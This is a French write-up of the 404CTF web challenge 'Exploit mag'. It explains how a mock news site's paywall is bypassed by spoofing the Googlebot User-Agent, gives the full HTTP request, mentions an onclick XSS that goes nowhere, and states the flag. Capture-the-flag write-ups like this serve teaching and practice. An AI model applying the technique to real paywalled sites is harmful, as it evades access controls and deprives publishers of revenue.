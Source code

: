# Exploit mag
## Enoncé
> Alors que la compétition bat son plein, votre entraîneur vient à votre rencontre :
>> Hey ! Je ne sais pas si tu as vu, mais il parait qu'un magazine en ligne a publié des trucs "intéressants" sur la compétition. C'est un ami à moi qui m'a envoyé le lien.
> En allant jeter un œil, rien ne semble différencier ce magazine d'un autre site sportif aux titres racoleurs... Mais l'un des articles attire votre attention. Ce serait bien de pouvoir y accéder, au moins pour savoir ce qu'ont appris les athlètes qui l'ont lu. Mais pas question de payer, il doit bien exister un autre moyen...

Auteur: **@Artamis**
 
Connexion: `https://exploit-mag.challenges.404ctf.fr`

## Analyse

On arrive sur un site de presse, où les articles sont disponibles entièrement uniquement au prix d'un abonnement.

Il y a deux liens qui pourraient nous intéresser: `https://exploit-mag.challenges.404ctf.fr/news/` et `https://exploit-mag.challenges.404ctf.fr/pricing/`.

Comme il n'y a pas création de compte, ou de cookies relié à notre connexion, il est intéressant de se demander comment le site effectue la vérification sur notre légitimité à voir ou non les articles. 

Il va peut être nous falloir implémenter un cookie à un moment ou à un autre.

### `/pricing`

<p align="center">
    <img src="../../Platforms/images/404CTFWeb3.png" alt="img1" style="width:40%;">
</p>

Le seul moyen d'accéder aux articles serait d'être premium, mais en observant le code source de la page, on apprend que le bouton "C'est parti !" n'effectue aucune autre action que de nous rediriger vers la page `/news`. Nous avons aucun indice sur ce potentiel cookie de légitimité.

### `/news`

En arrivant sur un article quelconque on tombe sur cette barrière de paiement:

<p align="center">
    <img src="../../Platforms/images/404CTFWeb4.png" alt="img1" style="width:40%;">
</p>

Seulement, lorsque l'on appuie sur le captcha résultat, rien ne se passe, il tourne en boucle.

Après analyse de son code source, les injections XSS sont possibles par la variable onclick, seulement elles ne mènent à rien.

Avec un peu plus d'observation on apprend par l'id d'un élément que ce genre de barrières s'appellent des paywalls.

Avec un peu de documentation sur internet, on apprend que certains sites laissent passer les bots crawlers de google pour obtenir un meilleur référencement, et il est possible d'usurper leur identité en utilisant leur User-Agent associé.

## Exploitation

L'article nous intéressant le plus est évidemment celui-ci `/dataleak-404-ctf`, mais nous aurions pu tous les faire;

On reproduit la requête d'obtention de l'article en changeant l'User-Agent par celui d'un Google Bot:
```http
GET /news/dataleak-404-ctf/ HTTP/1.1
Host: exploit-mag.challenges.404ctf.fr
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

Et on obtient directement l'article complet, et le flag 

Flag: **404CTF{p4yw4lL_bYpa55_1s_dAnG3r0us}**